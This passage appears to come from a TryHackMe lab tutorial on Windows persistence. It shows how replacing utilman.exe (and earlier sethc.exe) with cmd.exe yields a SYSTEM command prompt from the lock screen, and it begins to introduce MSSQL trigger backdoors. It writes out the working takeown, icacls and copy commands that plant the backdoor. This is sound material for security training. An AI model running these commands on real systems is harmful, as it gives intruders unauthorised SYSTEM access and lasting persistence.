 ![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2faf2bec5763297beb7c921858900c57.png)

You should now be able to press `SHIFT` five times to access a terminal with SYSTEM privileges directly from the login screen:

![sethc backdoor](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5062148957ec1d70dccd080bdca93ddf.png)


**Utilman**

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/73c7698a015de5a988fd815ff3e41473.png)

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

Command Prompt

```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

To trigger our terminal, we will lock our screen from the start button:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1f94b28361ffebbf70d280755821bc12.png)

And finally, proceed to click on the "Ease of Access" button. Since we replaced `utilman.exe` with a `cmd.exe` copy, we will get a command prompt with SYSTEM privileges:

![backdoored utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0fe1901296108241e2700abf87fa6a27.png)


# Using MSSQL as a Backdoor

There are several ways to plant backdoors in MSSQL Server installations. For now, we will look at one of them that abuses triggers. Simply put, **triggers** in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any INSERT into the `HRDB` database.
